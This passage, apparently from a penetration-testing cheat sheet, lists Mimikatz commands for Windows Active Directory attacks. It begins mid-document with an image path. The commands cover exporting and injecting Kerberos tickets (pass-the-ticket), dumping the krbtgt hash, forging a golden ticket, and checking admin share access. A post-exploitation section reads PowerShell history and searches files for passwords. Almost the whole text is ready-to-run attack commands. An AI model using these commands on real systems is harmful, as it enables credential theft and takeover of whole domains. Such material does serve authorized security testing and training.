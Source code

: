 ```powershell
sekurlsa::tickets /export  
```

#### **Injecting a Ticket**

```powershell
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi  
```

#### **Verifying Injected Ticket**

```powershell
klist  
```

* * *

### Golden Ticket Attack

#### **Extracting NTLM Hash of KRBTGT Account**

```powershell
lsadump::lsa /inject /name:krbtgt  
```

#### **Forging a Golden Ticket**

```powershell
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-235 
```

#### **Verifying Access**

```powershell
klist  
dir \\<RHOST>\admin$  
```

  

## 6\. Post Exploitation

### Extracting Sensitive Information

#### **Powershell History**

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
```

#### **Searching for Passwords in Files**

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
```
